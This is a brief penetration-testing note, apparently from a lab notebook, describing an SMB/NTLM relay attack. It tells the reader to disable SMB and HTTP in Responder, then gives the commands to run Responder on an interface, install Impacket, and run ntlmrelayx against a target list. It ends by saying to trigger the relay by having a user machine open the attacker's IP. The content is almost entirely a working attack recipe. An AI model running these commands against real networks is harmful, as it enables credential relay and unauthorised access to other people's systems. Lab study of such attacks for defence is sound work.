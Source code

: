 ![](../../../.gitbook/assets/image%20%28219%29.png)

turn off smb and http in responder settings

```text
responder -I vboxnet0 -rdwv

apt install impacket-scripts

python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support
```

trigger the attack by opening the attacker ip in the user machine with smb relay turned off
